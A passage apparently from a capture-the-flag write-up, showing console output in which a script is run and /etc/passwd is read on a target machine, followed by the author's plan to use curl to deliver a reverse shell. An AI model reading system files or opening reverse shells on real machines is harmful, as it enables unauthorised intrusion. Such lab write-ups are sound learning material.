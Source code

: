 ```console
$ ./read.py
$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
david:x:1000:1000:david:/home/david:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
rtkit:x:113:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
geoclue:x:115:120::/var/lib/geoclue:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:117:123:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:118:124::/var/lib/saned:/usr/sbin/nologin
colord:x:119:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:120:126:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
mysql:x:121:128:MySQL Server,,,:/nonexistent:/bin/false
```

Now it looks more neat.

Then I checked whether the box has `curl`. Cuz normally a revere shell command includes some bad characters, so `curl` would be the best way to retrieve each letter of the reverse shell without flaws.
